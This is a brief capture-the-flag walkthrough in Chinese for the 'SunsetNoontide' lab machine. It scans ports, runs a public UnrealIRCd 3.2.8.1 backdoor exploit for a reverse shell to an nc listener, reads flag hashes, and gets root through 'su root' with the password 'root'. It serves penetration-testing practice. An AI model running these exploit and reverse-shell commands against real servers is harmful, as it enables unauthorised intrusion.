 ###### tags: `Offsec` `PG Play` `Easy` `Linux`

# SunsetNoontide
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.211.120 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.211.120:6667
Open 192.168.211.120:6697
Open 192.168.211.120:8067

PORT     STATE SERVICE REASON  VERSION
6667/tcp open  irc     syn-ack UnrealIRCd (Admin email example@example.com)
6697/tcp open  irc     syn-ack UnrealIRCd (Admin email example@example.com)
8067/tcp open  irc     syn-ack UnrealIRCd (Admin email example@example.com)
```

google搜尋得到[UnrealIRCd-3.2.8.1-Backdoor
](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py)，修改裡面的`local_ip`跟`local_port`
```
# Sets the local ip and port (address and port to listen on)
local_ip = '192.168.45.158'  # CHANGE THIS
local_port = '9001'  # CHANGE THIS 
```

開nc執行`exploit.py`，在`/home/server`找到local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

┌──(kali㉿kali)-[~/pgplay]
└─$ python3 exploit.py -payload bash 192.168.211.120 6697

server@noontide:~/irc/Unreal3.2$
server@noontide:~$ cat local.txt
c8a2356e24956750824df002d420daae
```

透過`su root`可切換成root，在/root得root.txt
```
server@noontide:~/irc/Unreal3.2$ su root
Password: root

root@noontide:~# cat proof.txt
c36664f054d081a91d0e7b27b0cc375b
```